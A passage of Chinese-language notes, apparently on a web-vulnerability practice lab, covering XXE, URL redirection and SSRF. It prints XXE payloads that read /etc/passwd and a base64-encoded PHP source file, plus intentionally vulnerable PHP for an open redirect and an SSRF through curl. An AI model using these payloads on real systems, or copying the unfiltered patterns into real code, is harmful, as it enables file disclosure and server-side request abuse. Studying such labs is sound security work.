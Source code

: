 任意文件读取payload

```bat
<?xml version="1.0"  encoding="UTF-8"?>
<!DOCTYPE name [
<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<name>&xxe;</name>
```

使用伪协议

```bat
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY f SYSTEM "php://filter/read=convert.base64-encode/resource=xxe.php">
]>
<x>&f;</x>
```

# url重定向

```bat
$html="";
if(isset($_GET['url']) && $_GET['url'] != null){
    $url = $_GET['url'];
    if($url == 'i'){
        $html.="<p>好的,希望你能坚持做你自己!</p>";
    }else {
        header("location:{$url}");
    }
}
```

直接抓包修改url参数

`/vul/urlredirect/urlredirect.php?url=http://www.baidu.com`

# SSRF

## curl

代码

```php
if(isset($_GET['url']) && $_GET['url'] != null){

    //接收前端URL没问题,但是要做好过滤,如果不做过滤,就会导致SSRF
    $URL = $_GET['url'];
    $CH = curl_init($URL);
    curl_setopt($CH, CURLOPT_HEADER, FALSE);
    curl_setopt($CH, CURLOPT_SSL_VERIFYPEER, FALSE);
    $RES = curl_exec($CH);
    curl_close($CH) ;
//ssrf的问是:前端传进来的url被后台使用curl_exec()进行了请求,然后将请求的结果又返回给了前端。
//除了http/http外,curl还支持一些其他的协议curl --version 可以查看其支持的协议,telnet
//curl支持很多协议，有FTP, FTPS, HTTP, HTTPS, GOPHER, TELNET, DICT, FILE以及LDAP
    echo $RES;

}
```
